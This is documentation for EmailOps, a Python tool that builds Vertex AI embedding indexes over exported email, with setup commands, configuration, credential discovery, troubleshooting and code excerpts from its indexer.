









# EmailOps Vertex AI Complete Documentation

This document combines all relevant documentation and implementation details for the EmailOps Vertex AI system.

## Table of Contents

1.  [Introduction & Architecture](#part-1-introduction--architecture)
2.  [Configuration & Environment](#part-2-configuration--environment)
3.  [Core LLM Runtime](#part-3-core-llm-runtime)
4.  [Indexing System](#part-4-indexing-system)
5.  [Data Ingestion & Processing](#part-5-data-ingestion--processing)
6.  [Features](#part-6-features)
7.  [Common](#part-7-common)

---

## Part 1: Introduction & Architecture

### README_VERTEX.md

# EmailOps Vertex AI Implementation Guide

> **Version:** 1.0  
> **Provider:** Vertex AI (Google Cloud)  
> **Model:** gemini-embedding-001 (default)  
> **Status:** Production-Ready ✅

---

## Quick Start

### Prerequisites

1. **Google Cloud Project** with Vertex AI enabled
2. **Service Account JSON** with appropriate permissions
3. **Python 3.10+** with required dependencies

### Installation

```bash
# Clone repository
git clone <repository_url>
cd emailops_vertex_ai

# Install dependencies
pip install -r requirements.txt

# Set up credentials
mkdir -p secrets/
cp /path/to/service-account.json secrets/

# Set environment variables
export GCP_PROJECT="your-project-id"
export GOOGLE_APPLICATION_CREDENTIALS="secrets/your-service-account.json"
```

### Basic Usage

```bash
# Build index (first time)
python -m emailops.email_indexer \
  --root /path/to/email/export \
  --provider vertex \
  --force-reindex

# Incremental update (subsequent runs)
python -m emailops.email_indexer \
  --root /path/to/email/export \
  --provider vertex

# Search the index
python -m emailops.search_and_draft \
  --root /path/to/email/export \
  --provider vertex \
  --query "insurance policy renewal"
```

---

## Architecture Overview

### Vertex-Only Design

EmailOps is built exclusively for **Vertex AI** embeddings, leveraging Google's Gemini models for semantic search and email processing. This focused approach enables:

- **Simplified codebase** — No multi-provider complexity
- **Optimized performance** — Tuned for Vertex AI specifics
- **Reliable credentials** — Centralized GCP authentication
- **Consistent dimensions** — 3072 for Gemini, 768 for legacy

### Key Components

```
emailops/
├── email_indexer.py      # Vector index builder (Vertex-only)
├── index_metadata.py     # Metadata & consistency management
├── config.py             # Centralized configuration
├── utils.py              # Text extraction & email cleaning
├── validators.py         # Security & input validation
├── text_chunker.py       # Chunking logic
├── llm_client.py         # Embedding client (shim)
└── llm_runtime.py        # Vertex AI runtime
```

### Data Flow

```
Email Export
    ↓
[Conversation Discovery] → find_conversation_dirs()
    ↓
[Text Extraction] → extract_text() + clean_email_text()
    ↓
[Chunking] → prepare_index_units()
    ↓
[Embedding] → embed_texts() via Vertex AI
    ↓
[Persistence] → embeddings.npy + mapping.json + index.faiss
    ↓
[Consistency Check] → validate counts & dimensions
    ↓
Vector Index (_index/)
```

---

## Configuration

### Required Environment Variables

```bash
# GCP Project (required)
export GCP_PROJECT="your-project-id"

# Service Account (auto-discovered from secrets/ or set explicitly)
export GOOGLE_APPLICATION_CREDENTIALS="secrets/service-account.json"

# Optional: Override defaults
export VERTEX_EMBED_MODEL="gemini-embedding-001"  # Default
export EMBED_BATCH="64"                           # Batch size (max 250)
export CHUNK_SIZE="1600"                          # Characters per chunk
export CHUNK_OVERLAP="200"                        # Overlap between chunks
```

### Configuration File

The [`config.py`](../emailops/config.py) module provides centralized configuration:

```python
from emailops.config import EmailOpsConfig

# Load configuration
config = EmailOpsConfig.load()

# Access settings
print(config.VERTEX_EMBED_MODEL)  # "gemini-embedding-001"
print(config.DEFAULT_CHUNK_SIZE)  # 1600
print(config.GCP_PROJECT)         # From environment

# Update environment for child processes
config.update_environment()
```

---

## Index Building

### Three Update Modes

EmailOps supports three strategies for building/updating the vector index:

#### 1. Full Rebuild (`--force-reindex`)

Use when:
- Building index for the first time
- Changing embedding model or dimensions
- Index corruption detected
- Major schema changes

```bash
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --force-reindex
```

#### 2. Timestamp-Based Incremental

Use when:
- Regular updates after initial build
- `file_times.json` not available
- Fast updates needed

```bash
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex
```

**How it works:**
- Uses `last_run.txt` as cutoff timestamp
- Reuses embeddings for files with `mtime < last_run`
- Re-embeds changed/new files only

#### 3. File-Times Incremental (Precise)

Use when:
- Maximum efficiency needed
- Deletions must be tracked
- `file_times.json` exists from prior run

```bash
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex
```

**How it works:**
- Uses per-document `mtime` from `file_times.json`
- Tracks adds, edits, AND deletions
- Most efficient for steady-state updates

### Advanced Options

```bash
# Custom model
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --model text-embedding-005

# Larger batch size (up to 250)
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --batch 128

# Separate index directory
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --index-root /path/to/custom/index

# Limit chunks per conversation (testing)
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --limit 10
```

---

## Index Artifacts

### Directory Structure

After building, the index directory contains:

```
_index/
├── embeddings.npy        # NumPy array: (N, D) float32
├── mapping.json          # N document metadata entries
├── index.faiss           # Optional FAISS index (IndexFlatIP)
├── meta.json             # Index metadata (provider, model, dims, counts)
├── file_times.json       # Per-document mtime for incremental updates
└── last_run.txt          # ISO 8601 timestamp of last build
```

### Artifact Details

**`embeddings.npy`:**
- Shape: (N documents, D dimensions)
- Dtype: float32
- Normalized: Unit vectors (L2 norm = 1)
- Size: ~N × D × 4 bytes

**`mapping.json`:**
- Schema: List of document metadata objects
- Fields: id, path, conv_id, doc_type, subject, date, snippet, etc.
- Size: ~1 KB per document

**`index.faiss`:**
- Type: IndexFlatIP (Inner Product for cosine similarity)
- Built: Only if faiss-cpu installed
- Size: ~N × D × 4 bytes + overhead

**`meta.json`:**
- Provider: "vertex"
- Model: e.g., "gemini-embedding-001"
- Dimensions: Configured (3072 for Gemini) and actual
- Counts: num_documents, num_folders
- Index type: "faiss", "numpy", or "none"

---

## Credentials & Authentication

### Service Account Setup

1. **Create Service Account:**
   ```bash
   gcloud iam service-accounts create emailops-indexer \
     --display-name="EmailOps Indexer"
   ```

2. **Grant Permissions:**
   ```bash
   gcloud projects add-iam-policy-binding YOUR_PROJECT_ID \
     --member="serviceAccount:emailops-indexer@YOUR_PROJECT_ID.iam.gserviceaccount.com" \
     --role="roles/aiplatform.user"
   ```

3. **Create & Download Key:**
   ```bash
   gcloud iam service-accounts keys create secrets/emailops-sa.json \
     --iam-account=emailops-indexer@YOUR_PROJECT_ID.iam.gserviceaccount.com
   ```

### Auto-Discovery

EmailOps automatically discovers credentials in this order:

1. `GOOGLE_APPLICATION_CREDENTIALS` environment variable
2. Files in `secrets/` directory (priority order):
   - `api-agent-470921-aa03081a1b4d.json`
   - `apt-arcana-470409-i7-ce42b76061bf.json`
   - `crafty-airfoil-474021-s2-34159960925b.json`
   - `embed2-474114-fca38b4d2068.json`
   - `my-project-31635v-8ec357ac35b2.json`
   - `semiotic-nexus-470620-f3-3240cfaf6036.json`

To use custom credentials, either:
- Set `GOOGLE_APPLICATION_CREDENTIALS` environment variable, OR
- Place JSON file in `secrets/` with a name from the priority list, OR
- Update `CREDENTIAL_FILES_PRIORITY` in [`config.py`](../emailops/config.py:47)

---

## Embedding Models

### Supported Vertex Models

| Model | Dimensions | Use Case | Performance |
|-------|-----------|----------|-------------|
| `gemini-embedding-001` | 3072 | **Recommended** — Best quality | High |
| `text-embedding-005` | 768 | Legacy, smaller index | Medium |
| `text-embedding-004` | 768 | Legacy | Medium |
| `textembedding-gecko@latest` | 768 | Legacy | Low |
| `text-multilingual-embedding-*` | 768 | Multilingual | Medium |

### Model Selection

**Default (recommended):**
```bash
# Uses gemini-embedding-001 (3072 dims)
python -m emailops.email_indexer --root /path/to/export --provider vertex
```

**Override via CLI:**
```bash
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --model text-embedding-005
```

**Override via environment:**
```bash
export VERTEX_EMBED_MODEL="text-embedding-005"
python -m emailops.email_indexer --root /path/to/export --provider vertex
```

**⚠️ Important:** Changing models requires `--force-reindex` to rebuild with new dimensions.

---

## File Size Limits

### Default Limits

```bash
MAX_INDEXABLE_FILE_MB=50          # Skip files larger than 50 MB
MAX_INDEXABLE_CHARS=5000000       # Truncate text longer than 5M chars
MAX_ATTACHMENT_TEXT_CHARS=500000  # Max chars per attachment
EXCEL_MAX_CELLS=200000            # Max cells in Excel files
```

### Override Limits

```bash
# Index larger files
export MAX_INDEXABLE_FILE_MB=100
export MAX_INDEXABLE_CHARS=10000000

python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex
```

### Behavior

When limits are exceeded:
- **Files > MAX_INDEXABLE_FILE_MB:** Skipped with warning log
- **Text > MAX_INDEXABLE_CHARS:** Truncated with warning log
- **Excel > EXCEL_MAX_CELLS:** Rows truncated to stay within limit

---

## Performance Optimization

### Batch Size Tuning

```bash
# Default: 64 texts per embedding call
python -m emailops.email_indexer --root /path/to/export --batch 64

# Higher throughput (if quota allows)
python -m emailops.email_indexer --root /path/to/export --batch 128

# Maximum (250 texts per call)
python -m emailops.email_indexer --root /path/to/export --batch 250
```

**Considerations:**
- Larger batches = fewer API calls = faster builds
- Limited by Vertex AI quotas (check Cloud Console)
- Max 250 enforced to prevent errors

### Incremental Updates

For large corpora (>5,000 conversations), prefer incremental mode:

```bash
# Initial build (full)
python -m emailops.email_indexer \
  --root /path/to/export \
  --force-reindex

# Daily updates (incremental)
python -m emailops.email_indexer \
  --root /path/to/export
```

**Performance:**
- Full build: ~20-30 min for 10k conversations
- Incremental: ~2-5 min for 1k changes
- File-times mode: ~1-3 min for 1k changes

---

## Troubleshooting

### Common Issues

#### "No index metadata found"

**Cause:** Index hasn't been built yet

**Solution:**
```bash
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --force-reindex
```

---

#### "Dimension mismatch: index has X dims, but Vertex config is Y"

**Cause:** Index was built with a different model/dimension setting

**Solution:**
```bash
# Option 1: Rebuild with current model
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --force-reindex

# Option 2: Set dimension explicitly
export VERTEX_OUTPUT_DIM=3072  # Match existing index
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex
```

---

#### "Failed to initialize GCP credentials"

**Cause:** Missing or invalid service account JSON

**Solution:**
```bash
# Check if file exists
ls -la secrets/

# Verify JSON structure
cat secrets/your-file.json | jq '.project_id, .client_email'

# Set explicitly
export GOOGLE_APPLICATION_CREDENTIALS="$(pwd)/secrets/your-file.json"
```

**Required JSON fields:**
- `type: "service_account"`
- `project_id`
- `private_key_id`
- `private_key`
- `client_email`

---

#### "Embedding provider returned empty vectors"

**Cause:** Quota exhausted, network issue, or permission problem

**Solution:**
```bash
# Check quotas in Cloud Console
# Navigate to: Vertex AI > Quotas

# Verify permissions
gcloud projects get-iam-policy YOUR_PROJECT_ID \
  --flatten="bindings[].members" \
  --filter="bindings.members:serviceAccount:YOUR_SA_EMAIL"

# Should include: roles/aiplatform.user

# Reduce batch size to stay under quota
python -m emailops.email_indexer \
  --root /path/to/export \
  --batch 32
```

---

#### "Embeddings/document count mismatch"

**Cause:** Index corruption or interrupted build

**Solution:**
```bash
# Rebuild from scratch
python -m emailops.email_indexer \
  --root /path/to/export \
  --provider vertex \
  --force-reindex
```

---

### VERTEX_ALIGNMENT_SUMMARY.md

# Vertex-Only Implementation Alignment Summary

> **Date:** 2025-01-12  
> **Status:** ✅ ALIGNED  
> **Scope:** EmailOps Vertex AI single-provider implementation

---

## Executive Summary

The EmailOps codebase has been reviewed and confirmed to be **fully aligned** with the Vertex-only requirements specified in the review document. All recommendations have been verified as implemented:

✅ **Provider scope is Vertex-only**  
✅ **Three update paths are implemented**  
✅ **Chunk IDs and attachment IDs are stable/deterministic**  
✅ **Embedding reuse is efficient and safe**  
✅ **Index persistence is robust**  
✅ **Metadata logic is Vertex-aware**  
✅ **Config & credentials are centralized**  
✅ **Extraction & cleaning are battle-tested**

---

## 1) Provider Constraint (Vertex Only)

### Implementation Status: ✅ VERIFIED

**CLI Constraint:**
```python
# emailops/email_indexer.py:1010
ap.add_argument("--provider", choices=["vertex"], 
                default=os.getenv("EMBED_PROVIDER", "vertex"),
                help="Embedding provider for index build (this build supports only 'vertex')")
```

**Configuration Default:**
```python
# emailops/config.py:27
EMBED_PROVIDER: str = field(default_factory=lambda: os.getenv("EMBED_PROVIDER", "vertex"))
```

**Model Override Mapping:**
```python
# emailops/email_indexer.py:227-245
def _apply_model_override(provider: str, model: Optional[str]) -> None:
    """Map --model to VERTEX_EMBED_MODEL env var"""
    env_map = {"vertex": "VERTEX_EMBED_MODEL", ...}
```

---

## 2) Three Update Modes

### Implementation Status: ✅ VERIFIED

| Mode | Function | Trigger | Artifacts Used |
|------|----------|---------|----------------|
| **Full Rebuild** | [`build_corpus()`](../emailops/email_indexer.py:560) | `--force-reindex` | None (fresh build) |
| **Timestamp Incremental** | [`build_corpus()`](../emailops/email_indexer.py:560) | `last_run.txt` exists | `last_run.txt` |
| **Precise Incremental** | [`build_incremental_corpus()`](../emailops/email_indexer.py:726) | `file_times.json` exists | `file_times.json` + `mapping.json` |

**Decision Logic:**
```python
# emailops/email_indexer.py:1065-1093
if existing_file_times and not args.force_reindex:
    # Precise incremental with deletion tracking
    new_docs, deleted_ids = build_incremental_corpus(...)
else:
    # Timestamp-based or full rebuild
    new_docs, unchanged_docs = build_corpus(..., last_run_time=...)
```

---

## 3) Stable & Deterministic IDs

### Implementation Status: ✅ VERIFIED

**Chunk IDs:**
```python
# Conversation: "conv_id::conversation::chunk{N}"
# First chunk uses base ID without suffix
# emailops/text_chunker.py:305
"id": f"{doc_id}::chunk{idx}" if idx > 0 else doc_id
```

**Attachment IDs:**
```python
# emailops/email_indexer.py:391-415
def _att_id(base_id: str, path: str) -> str:
    """Generate stable attachment ID based on SHA-1 of absolute POSIX path"""
    ap = Path(path).resolve().as_posix()
    h = hashlib.sha1(ap.encode("utf-8")).hexdigest()[:12]
    return f"{base_id}::att:{h}"
```

This ensures:
- Same file → same ID across runs
- No duplication in incremental builds
- Reliable reuse of embeddings

---

## 4) Embedding Reuse (Efficient & Safe)

### Implementation Status: ✅ VERIFIED

**Reuse Strategy:**
```python
# emailops/email_indexer.py:1126-1154
if existing_embeddings is not None and existing_mapping and not args.force_reindex:
    # Map id → row index for unchanged docs
    id_to_old_idx = {doc["id"]: i for i, doc in enumerate(existing_mapping)}
    
    for d in unchanged_docs:
        idx = id_to_old_idx.get(d.get("id"))
        if idx is not None and 0 <= idx < existing_embeddings.shape[0]:
            # Reuse existing vector (mmap view slice)
            all_embeddings.append(existing_embeddings[idx: idx + 1])
```

**Validation:**
```python
# emailops/email_indexer.py:1115-1124
def _validate_batch(vecs: np.ndarray, expected_rows: int) -> None:
    if vecs.size == 0:
        raise RuntimeError("Embedding provider returned empty vectors")
    if vecs.ndim != 2 or vecs.shape[0] != expected_rows:
        raise RuntimeError(f"Invalid embeddings shape: got {vecs.shape}")
    if not np.isfinite(vecs).all():
        raise RuntimeError("Invalid embeddings returned (non-finite values)")
    if float(np.max(np.linalg.norm(vecs, axis=1))) < 1e-3:
        raise RuntimeError("Embeddings look degenerate (all ~zero)")
```

---

## 5) Robust Index Persistence

### Implementation Status: ✅ VERIFIED

**Atomic Writes:**

1. **Embeddings (NPY):**
```python
# emailops/email_indexer.py:958-961
buf = io.BytesIO()
np.save(buf, embeddings.astype("float32", order="C"))
_atomic_write_bytes(ixp.embeddings, buf.getvalue())
```

2. **Mapping (JSON):**
```python
# emailops/email_indexer.py:963-964
write_mapping(index_dir, mapping)  # Already atomic via _atomic_write_json
```

3. **FAISS (Optional):**
```python
# emailops/email_indexer.py:966-977
index = faiss.IndexFlatIP(dim)  # Inner Product for cosine
index.add(np.ascontiguousarray(embeddings, dtype=np.float32))
faiss_tmp = ixp.faiss.with_suffix(ixp.faiss.suffix + ".tmp")
faiss.write_index(index, str(faiss_tmp))
os.replace(faiss_tmp, ixp.faiss)  # Atomic replace
```

4. **Metadata:**
```python
# emailops/email_indexer.py:979-987
meta = create_index_metadata(
    provider=provider,
    num_documents=len(mapping),
    num_folders=int(num_folders),
    index_dir=index_dir,
    custom_metadata={"actual_dimensions": int(embeddings.shape[1])}
)
save_index_metadata(meta, index_dir)
```

**Post-Save Consistency Check:**
```python
# emailops/email_indexer.py:990-998
try:
    if check_index_consistency is not None:
        check_index_consistency(index_dir, raise_on_mismatch=True)
    else:
        _local_check_index_consistency(index_dir)
except Exception as e:
    logger.error("Post-save consistency check failed: %s", e)
    raise
```

---

## 6) Vertex-Aware Metadata

### Implementation Status: ✅ VERIFIED

**Model Normalization:**
```python
# emailops/index_metadata.py:132-142
def _norm_vertex_model_name(raw: Optional[str]) -> str:
    """Treat 'gemini-embedding-001' as alias of 'gemini-embedding-001'"""
    model = (raw or "").strip()
    lower = model.lower()
    if lower == "gemini-embedding-001":
        return "gemini-embedding-001"
    return model
```

**Dimension Inference:**
```python
# emailops/index_metadata.py:145-176
def _vertex_dimensions_for_model(model: str) -> Optional[int]:
    """
    Heuristics for Vertex AI embedding dimensions:
    - gemini-embedding-*                => 3072
    - text-embedding-004/005            => 768
    - textembedding-gecko*              => 768
    - text-multilingual-embedding-*     => 768
    """
    m = (model or "").lower()
    last = m.split("/")[-1]  # Support fully-qualified resource names
    
    if last.startswith(("gemini-embedding", "gemini-embedder")):
        return 3072
    
    if last.startswith(("text-embedding-004", "text-embedding-005", 
                        "textembedding-gecko", "text-multilingual-embedding")):
        return 768
    
    return None
```

**Provider Normalization:**
```python
# emailops/index_metadata.py:122-129
def _normalize_provider(provider: str) -> str:
    """Normalize common provider aliases to 'vertex'"""
    p = (provider or "").strip().lower().replace("-", "").replace(" ", "")
    if p in {"vertex", "vertexai", "googlevertex", "googlevertexai"}:
        return "vertex"
    return p
```

---

## 7) Centralized Config & Credentials

### Implementation Status: ✅ VERIFIED

**EmailOpsConfig:**
```python
# emailops/config.py:13-204
@dataclass
class EmailOpsConfig:
    # Directory names
    INDEX_DIRNAME: str = "_index"
    CHUNK_DIRNAME: str = "_chunks"
    
    # Processing defaults
    DEFAULT_CHUNK_SIZE: int = 1600
    DEFAULT_CHUNK_OVERLAP: int = 200
    DEFAULT_BATCH_SIZE: int = 64
    
    # Embedding provider settings
    EMBED_PROVIDER: str = "vertex"
    VERTEX_EMBED_MODEL: str = "gemini-embedding-001"
    
    # GCP settings
    GCP_PROJECT: str | None
    GCP_REGION: str = "us-central1"
    VERTEX_LOCATION: str = "us-central1"
```

**Credential Discovery:**
```python
# emailops/config.py:99-130
def get_credential_file(self) -> Path | None:
    """Find valid credential file from priority list"""
    # Check GOOGLE_APPLICATION_CREDENTIALS env var first
    if self.GOOGLE_APPLICATION_CREDENTIALS:
        creds_path = Path(self.GOOGLE_APPLICATION_CREDENTIALS)
        if creds_path.exists():
            return creds_path
    
    # Search in secrets/ directory
    secrets_dir = self.get_secrets_dir()
